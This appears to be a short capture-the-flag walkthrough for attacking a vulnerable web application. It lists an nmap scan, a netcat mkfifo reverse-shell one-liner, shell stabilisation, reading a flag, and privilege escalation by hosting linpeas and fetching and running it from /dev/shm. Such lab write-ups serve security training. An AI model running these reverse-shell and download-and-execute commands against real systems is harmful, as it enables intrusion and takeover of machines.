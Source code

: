
# Vulnerable Web Application Attacking

```bash
export IP=
export PORT=8000 
export HOSTIP=
```

1. Nmap Scanning:
```bash
nmap -p- -sC -sV -oN nmap/initial $IP 
```


2. Send through the web terminal:

[Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)


```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 0.0.0.0 9999 >/tmp/f
```

3. Stabilize shell:

[Poor Man's Pentest](https://github.com/JohnHammond/poor-mans-pentest/blob/master/stabilize_shell.sh)

```bash
# On remote
python3 -c "import pty; pty.spawn('/bin/bash')"

# ctrl z
stty raw -echo
fg
export TERM=xterm
```

## User flag

```bash
cat ~/flag.txt
```

4. Privilege Escalation

Host linpeas.sh on attacker machine
```bash
python3 -m http.server 1337
```

Download and run linpeas
```bash
cd /dev/shm # Hiding lol
wget "$HOSTIP/linpeas.sh"
chmod +x linpeas.sh
./linpeas.sh
```